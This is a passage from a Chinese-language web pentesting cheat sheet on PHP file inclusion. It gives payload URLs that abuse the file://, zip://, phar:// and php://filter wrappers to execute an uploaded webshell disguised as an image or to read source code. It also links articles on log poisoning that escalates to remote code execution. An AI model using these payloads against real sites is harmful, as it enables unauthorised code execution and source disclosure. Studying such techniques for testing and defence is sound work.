     `Payload: http://www.test.com/test.php?file=upload/hourse.jpg&x=phpinfo()`

- 文件协议读取

    其前提是得知道网站应用的绝对路径(物理路径):

    `Payload: http://www.test.com/test.php?file=file://D:/Server/htdocs/test/upload/hourse.jpg&x=phpinfo()`

    结果和上面一样,只是地址栏链接不一样.

- 压缩包文件读取

    依然需要知道压缩包文件的绝对路径

    `Payload: http://www.test.com/test.php?file=zip://D:/Server/htdocs/test/upload/shell.zip%23shell.php&x=phpinfo())`

- phar:// 相对路径运行 PHP 文件

    当我们想要运行自己的 PHP 文件,该咋做呐？通过文件包含(include,require 这类函数),首先构造一个这样的文件,将 webshell.php 添加到压缩文件 .zip,然后将压缩包后缀名改为 .jpg 反正合法的文件后缀即可(一般的操作是这样的,当只能上传图片的时候),最后使用 phar:// 按照相对路径读取并执行文件.

    `Payload:http://www.test.php?file=phar://upload/shell.jpg/shell.php?x=phpinfo()`

- 读取源码

    当我们没法儿上传文件,但是又想读取文件的源码来寻找别的漏洞从而进一步利用该怎么做呐？同样的利用 php://filter/ 协议可以实现,要注意的是,因为编码问题,一般我们会将读取的文件先 Base64 编码一下输出:

    `Payload:http://www.test.com/test.php?file=php://filter/read=convert.base64-encode/resource=upload/shell.php`

### 日志中毒攻击

`log poisoning`

**相关文章**
- [RCE with LFI and SSH Log Poisoning](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/)
- [Apache Log Poisoning through LFI](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)
- [From Local File Inclusion to Remote Code Execution - Part 1 | Outpost 24 blog](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)
- [SMTP Log Poisioning through LFI to Remote Code Execution](https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/)

---

## 文件解析

**相关文章**
- [解析漏洞总结 - erevus](http://www.vuln.cn/7070)

### IIS

**5.x/6.0 解析漏洞**

